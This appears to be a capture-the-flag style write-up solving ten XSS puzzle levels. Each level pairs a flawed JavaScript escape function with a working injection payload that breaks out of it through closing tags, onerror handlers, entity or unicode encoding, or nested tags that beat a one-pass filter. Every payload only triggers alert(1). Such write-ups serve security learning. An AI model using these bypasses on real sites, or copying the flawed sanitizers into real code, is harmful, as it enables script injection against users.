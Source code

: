 ## 1)WarmUp

```javascript
function escape(s) {
  return '<script>console.log("'+s+'");</script>';
}
```

Any noob can solve this question, the simplistic task. Just close the console function and then create a new script to alert.

`")</script><script>alert(1)</script>"`

## 2)Adobe

```javascript
function escape(s) {
  s = s.replace(/"/g, '\\"');
  return '<script>console.log("' + s + '");</script>';
}
```

In this task, our quote “ is escaped by a backslash. However, we can still use one more backslash \ to make the quote functional, like this:

`\"</script><script>alert(1)</script>"`

## 3)Json

```javascript
function escape(s) {
  s = JSON.stringify(s);
  return '<script>console.log(' + s + ');</script>';
}
```

We know that JSON.stringify would not escape parentheses or slash. Thus, just utilize them to close the previous tag and create new one:

`</script><script>alert(1)</script>`

## 4)Javascript

```javascript
function escape(s) {
  var url = 'javascript:console.log(' + JSON.stringify(s) + ')';
  console.log(url);
  var a = document.createElement('a');
  a.href = url;
  document.body.appendChild(a);
  a.click();
}
```

Seems terrible, it’s not possible to create tag in javascript protocol and quotation is escaped. But remember this is a URL, we can use URL encode to close the console and execute javascript expression:

`%22+alert(1)+%22`

## 5)Markdown

```javascript
function escape(s) {
  var text = s.replace(/</g, '&lt;').replace(/"/g, '&quot;');
  // URLs
  text = text.replace(/(http:\/\/\S+)/g, '<a href="$1">$1</a>');
  // [[img123|Description]]
  text = text.replace(/\[\[(\w+)\|(.+?)\]\]/g, '<img alt="$2" src="$1.gif">');
  return text;
}
```

The question seems complicated, em, it spends a little time for me to fully understand the code. In this case, you cannot create a new tag. However, we can use the regex to create new event handler in the tag.
We can apparently find out that the string follows `http://` in description `[[some text|description]]` will be created in href or alt in the new tag. Also, quotations are added when creating. If we can end the alt or href and use following text to create event handler, then, alerting is achieved:

`[[x|http://onerror='alert(1)']]`

Here is the html returned by escape(s):

`<img alt="<a href="http://onerror='alert(1)'" src="x.gif">">http://onerror='alert(1)']]</a>`

Because both alt and href will create a quotation at the begging, the </a href= is recognized as a property. What’s more, the text ‘onerror’ is not surronded by quotations and thus is treated as event handler. Please notice that we must have src property, otherwise, the onerror will not be triggered.

## 6)DOM

```javascript
function escape(s) {
  // Slightly too lazy to make two input fields.
  // Pass in something like "TextNode#foo"
  var m = s.split(/#/);
  // Only slightly contrived at this point.
  var a = document.createElement('div');
  a.appendChild(document['create'+m[0]].apply(document, m.slice(1)));
  return a.innerHTML;
}
```

The code may be strange, but if you know that the method in a object can be called by exampleMethod and a proper function begging with create, it would be not difficult.
Many createXXX fucntion disallow us to pass a tag or create a tag with event listener. In this case, I choose createComment, which allow us to disclose the comment tag and create own tag.

`Comment#--><img src=a onerror=alert(1)><!--`

## 7)Callback

```javascript
function escape(s) {
  // Pass inn "callback#userdata"
  var thing = s.split(/#/);
  if (!/^[a-zA-Z\[\]']*$/.test(thing[0])) return 'Invalid callback';
  var obj = {'userdata': thing[1] };
  var json = JSON.stringify(obj).replace(/</g, '\\u003c');
  return "<script>" + thing[0] + "(" + json +")</script>";
}
```

We can create a new script inside and use single quotaion to end the JSON. Then, comment the false javascript grammar part:

`<script>'({"userdata":"';alert(1)//"})</script>`

## 8)Skandia

```javascript
function escape(s) {
  return '<script>console.log("' + s.toUpperCase() + '")</script>';
}
```
toUpperCase, em, we cannot use javascript function properly. However, it’s legal to use html encode to excute event listener in tag. As a result, we merely need to encode alert(1):

`")</script><img src=a onerror=&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29; ><script>("`

## 9)Template

```javascript
function escape(s) {
  function htmlEscape(s) {
    return s.replace(/./g, function(x) {
       return { '<': '&lt;', '>': '&gt;', '&': '&amp;', '"': '&quot;', "'": '&#39;' }[x] || x;       
     });
  }
  function expandTemplate(template, args) {
    return template.replace(
        /{(\w+)}/g,
        function(_, n) {
           return htmlEscape(args[n]);
         });
  }
  return expandTemplate(
    "                                                \n\
      <h2>Hello, <span id=name></span>!</h2>         \n\
      <script>                                       \n\
         var v = document.getElementById('name');    \n\
         v.innerHTML = '<a href=#>{name}</a>';       \n\
      <\/script>                                     \n\
    ",
    { name : s }
  );
}
```
OMG, so many chracters are escaped. But don’t worry, the innerHTML is a javascript string. Just use javascript encode, alert:
`\u003cimg src=a onerror=alert(1)\u003e`

## 10)JSON(2)
Em, a high level JSON quetion. The </script is elimated according to regex. However, the escape function only checks in once. To utilize the feature, we can create <script> that contains </script inside to bypass the function:

`</scr</scriptipt><script>alert(1)</scr</scriptipt><script>`
